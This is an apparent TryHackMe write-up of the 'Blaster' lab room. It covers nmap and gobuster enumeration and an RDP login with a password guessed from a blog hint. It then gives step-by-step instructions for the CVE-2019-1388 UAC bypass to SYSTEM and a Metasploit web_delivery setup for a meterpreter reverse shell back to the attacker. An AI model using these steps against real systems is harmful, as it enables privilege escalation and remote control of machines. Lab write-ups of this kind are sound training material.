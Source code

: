 # Blaster
> 4lch3my | June 26, 2023
-------------------
#### A blast from the past!
#### [Room Link](https://tryhackme.com/room/blaster)

## Basic Enumeration 
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>

Now is where the basics of recon comes into play. To start, I use [nmap] which is default option on the personal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-25 22:55 BST
Nmap scan report for ip-MACHINE_IP.eu-west-1.compute.internal (10.10.143.114)
Host is up (0.00030s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-06-24T21:50:39
|_Not valid after:  2023-12-24T21:50:39
|_ssl-date: 2023-06-25T21:55:42+00:00; 0s from scanner time.
MAC Address: 02:AD:6F:28:86:81 (Unknown)
...
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 28.98 seconds
```

#### Web Enumeration

On `port 80` we have a webserver running. Before we visit it, let us run a good old [GoBuster](https://www.kali.org/tools/gobuster/) website scan for login pages:
`gobuster dir -u http://10.10.238.240/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.143.114/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/06/25 23:04:02 Starting gobuster
===============================================================
/retro (Status: 301)
/Retro (Status: 301)
===============================================================
2023/06/25 23:04:30 Finished
===============================================================
```

Time to look at both of these pages. After a few minutes of looking at both of them I can safely say, they are an exact copy of each other, so I will be focusing on `/retro` on the rest of the writeup. The webpage presented is as seen below, a blog style website.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/retro.PNG?raw=true)

It seems to be written in cronological order, so let's scroll to the bottom of the main page, and see who the author might be.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/wade.PNG?raw=true)

Crawling through the posts, we can find one called `Ready Player One` where he is reffering to an issue with login. 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/palyer_one.PNG?raw=true)

Clicking the post and reading the comment section, we get a hint at what migth the users password be:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/maybe_password.PNG?raw=true)

With this info we can try to log in to the machine. Open RDP or Remmina on your host machine, use the provided settings to access it:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/remmina.PNG?raw=true)

And we have access! Read the user.txt on the Desktop for the first flag!

## Machine Enumeration 

We see another file on the desktop named `hhupd`. After  quick Google we can see a CVE is usually tested with this file: `CVE-2019-1388`. `CVE-2019-1388` exploits a part of the UAC `Windows Certificate Dialog` popup when a user has no access to an administrator file without a password. 
This is one of the easiest bypasses out there, so time to run over this as fast as possible.

On the Host machine, double-click/run the `hhupd` application. You will get prompted to provide an administrator password. 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/admin.PNG?raw=true)

As we do not have one, we can try to exploit this. Click the `Show more details` option, then the `Show information about the publisher's certificate`.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/certification.PNG?raw=true)

After this, click on the `Issued by` URL link, it may seem nothin is happening at first, but it will prompt a browser window to open (Internet Explorer in our case) in the background. Close the `Certification popup` (top right X), close the `User Account Control` popup (top right X), and the mentioned Internet Explorer Windows show be visible.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/ie.PNG?raw=true)

Don't worry if you get the error: `"This page can't be displayed"`, as the machine has no internet access, this will never load, so you can ignore it!
In the next step, we need to "save the webpage to our machine". Hit `Control+S` to get the following prompt:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/ie_2.PNG?raw=true)

Click `OK`, and save the file to the location: `C:\WINDOWS\system32\cmd.exe`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/explorer.PNG?raw=true)

Click `SAVE` and you will notice a CMD prompt windows appear. After writing the command `whoami`, we can see we are `nt authority\system` also knwon as `root`. 
To grab the admin flag, we can visit: `C:\Users\Administrator\Desktop` and get the flag

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/root_flag.PNG?raw=true)

## Reverse shell

Time to get a reverse shell from outside of this machine.
Start metasploit with the `msfconsole`. After loading in, we can select our exploit with: `exploit/multi/script/web_delivery`.
To see all target options, we can use the command `show targets`, then use `set target PSH` to select powershell for our use.
Then we can set the `lhost` to our exploiting machine and `lport` to something what we like, I usually use `1337` to be easily visible. 
Then we can set our payload to `set payload windows/meterpreter/reverse_http` to get a reverse http shell. And finally we can run our exploit against the target machine with `run -j`.
You will get a command specially crafted for you from the console, something like this:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/metasploit.PNG?raw=true)

Copy and Paste this to the Windows machine CMD terminal what we opened in the previous task. After you execute it, you will see a session created in your `metasploit console`. To make sure it worked, you can use the `sessions` command to list sessions. To use the session, use the command: `sessions SESSION_NUMBER`.

And there we go. We have a full terminal with `elevated priveledges`.

#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeup's of mine or interested in some of my coding work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my
